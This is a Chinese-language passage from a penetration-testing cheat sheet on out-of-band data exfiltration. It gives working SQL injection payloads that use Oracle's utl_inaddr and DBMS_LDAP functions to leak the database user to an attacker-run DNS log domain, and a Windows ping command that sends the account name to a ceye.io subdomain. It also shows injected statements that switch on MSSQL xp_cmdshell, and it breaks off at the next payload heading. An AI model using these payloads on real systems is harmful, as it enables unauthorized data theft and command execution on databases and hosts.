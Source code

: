 > **外带原理**

- Oracle的带外注入和 DNSLOG很相似，需要**使用网络请求的函数** 进行注入利用

> **相关函数**

- **utl_inaddr.get_host_address()** 函数
- **SYS.DBMS_LDAP.INIT()** 函数

> **常用payload**

- 查当前用户名

```
and (select utl_inaddr.get_host_address((select user from dual)||'.aaa.com(自己搭建dnslog)') from dual)is not null --
and (select SYS.DBMS_LDAP.INIT((select user from dual)||'.aaaa.com(自己搭建dnslog)') from dual)is not null --
```

注意：|| 转码%7C%7C

## 命令外带

- Windows系统查看当前账户名

```
ping %USERNAME%.bbn3un.ceye.io
```

# 0x02 HTTP外带

## MSSQL 数据外带

> **外带原理**

- 利用MSSQL中的xp_cmdshell存储过程 和powershell发出HTTP请求，再通过监听IP:端口 记录或外带平台查看返回数据

> **MSSQL HTTP外带条件**

- 开启xp_cmdshell功能

```
?id=1; EXEC sp_configure 'show advanced options',1;-- 
?id=1; RECONFIGURE;-- 
?id=1; EXEC sp_configure 'xp_cmdshell',1;-- 
?id=1; RECONFIGURE;-- 
```

- 验证xp_cmdshell功能

```
?id=1'; exec master..xp_cmdshell 'ping -n 10 127.0.0.1'-- 
```

> **常用payload**

- 查库名和版本
